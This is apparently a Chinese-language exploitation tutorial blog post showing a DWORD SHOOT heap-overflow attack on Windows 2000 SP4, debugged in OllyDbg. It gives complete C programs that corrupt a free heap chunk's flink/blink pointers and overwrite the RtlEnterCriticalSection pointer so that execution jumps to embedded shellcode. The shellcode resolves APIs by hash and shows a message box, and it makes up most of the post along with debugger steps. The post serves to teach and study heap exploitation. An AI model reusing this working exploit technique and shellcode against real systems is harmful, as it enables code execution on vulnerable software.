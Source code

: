 ```yaml
---
layout:		post
title:		DWORD SHOOT堆溢出利用
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

int main()
{
	HLOCAL h1,h2,h3,h4,h5,h6;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h3=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h4=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h5=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	h6=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	__asm int 3;

	HeapFree(hp,0,h1);
	HeapFree(hp,0,h3);
	HeapFree(hp,0,h5);

	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	
	return 0;
}
```

程序说明:

```
1.创建了一个0x1000的堆区。
2.连续申请了6个8 byte的堆块。
3.堆块间隔释放, 防止合并。
```


### 0x01 堆块释放

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x00.png)

内存区转到0x00360688, 这里是请求分配的6块8 byte堆块, 加上头部共16 byte

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x01.png)

然后释放第1块 h1, 将空闲块链入了freelist[2]

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x02.png)

再往下释放h3、h5, 链入freelist[2]


### 0x02 DWORD SHOOT

现在将0x03606C8处修改为0x44444444, 0x03606D0修改为0x00000000

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x03.png)

当再请求分配8 byte堆块(实际上16 byte), h5从freelist[2]中卸下

```
node->blink->flink = node->flink # [0x44444444] = 0x00000000, 异常
node->flink->blink = node->blink
```

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x04.png)


### 0x03 前置测试

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

int main()
{
	HLOCAL h1=0,h2=0;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	__asm int 3;
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	
	memcpy(h1,shellcode,200);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);

	return 0;
}
```

OllyDbg附加上去, 内存区goto 0x00360688, 观察此时尾块头部

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x05.png)

单步到h1分配, 现在0x00360680是h1块的头部

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x06.png)

往下翻尾块的头部在0x00360750, 0x00360750-0x00360688=200, 中间相隔200 byte数据区

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x07.png)

单步到rep movsd, 现在数据区已经被0x90填充, 再往下就能覆盖尾块的头部

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x08.png)


### 0x04 植入代码

继续VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xb8\x20\xf0\xfd\x7f"
"\xbb\x03\x91\xf8\x77"		# RtlEnterCriticalSection的地址0x77f89103通过调试得到, 用来使shellcode调用ExitProcess时不产生异常
"\x89\x18"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"		# 按之前调试得到的数据写回
"\x88\x06\x36\x00\x20\xf0\xfd\x7f";		# 0x00360688 shellcode起始地址, 0x7ffdf020 RtlEnterCriticalSection的指针地址(固定不变)

int main()
{
	HLOCAL h1=0,h2=0;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	//__asm int 3;
	//EnterCriticalSection(0);
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	
	memcpy(h1,shellcode,0x200);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);

	return 0;
}
```

取消main的两处注释, 通过调试得到RtlEnterCriticalSection的地址

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x09.png)

成功断下, 跟进RtlEnterCriticalSection, 得到地址0x77f89103

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x0a.png)

给EnterCriticalSection(0)处加上注释, 再调试一遍看DWORD SHOOT是否成功

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x0b.png)

直接到rep movsd, 内存区转到0x00360758, 可以看到成功覆盖尾块的flink、blink指针, 当h1卸下时(请求h2)将发生

```
h1->blink->flink = h1->flink
[0x7ffdf020] = 0x00360688
```

当进程退出时, 再调用临界区函数RtlEnterCriticalSection, 实际上调用shellcode, pwn~

![](/assets/img/exploit/2017-10-01-windows-2000-dwordshoot/0x0c.png)